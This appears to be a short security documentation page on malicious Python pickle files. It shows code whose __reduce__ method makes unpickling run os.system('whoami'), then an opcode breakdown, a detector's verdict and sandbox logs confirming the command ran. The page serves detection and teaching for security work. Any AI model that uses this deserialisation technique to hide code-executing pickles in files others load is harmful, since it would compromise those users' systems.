 # Malicious Pickle Examples

This document provides examples of real malicious pickle files, their detection, and visual analysis for security professionals.

## Example 1: Command Execution Payload

### Description
This example demonstrates a malicious pickle that executes arbitrary commands on the victim's system when unpickled.

### Malicious Pickle Code
```python
import pickle
import os

class CommandExecution:
    def __reduce__(self):
        return (os.system, ('whoami',))

# Create the malicious pickle
with open('malicious_command.pkl', 'wb') as f:
    pickle.dump(CommandExecution(), f)
```

### Visual Analysis
**Command Execution Pickle Analysis:**
- **Opcode Pattern:** GLOBAL → TUPLE1 → REDUCE → STOP
- **Suspicious Modules:** `os.system` reference detected
- **Entropy Level:** Moderate (typical for command execution payloads)
- **Structure:** Simple reduction pattern with system command payload

### Detection Results
```
Detection Result: MALICIOUS (Confidence: 99.8%)
Threat Type: Command Execution
Explanation: This pickle contains code that will execute arbitrary system commands via os.system
Key indicators: GLOBAL opcode referencing os.system, REDUCE opcode, suspicious module imports
Scan Time: 0.023ms
```

### Behavioral Analysis
When executed in a sandbox environment, this pickle attempts to run the `whoami` command:

```
[SANDBOX] Process created: /bin/sh
[SANDBOX] Command executed: whoami
[SANDBOX] System call detected: execve("/bin/whoami", ["whoami"], [environment vars])
[SANDBOX] Malicious behavior confirmed: Command execution
```
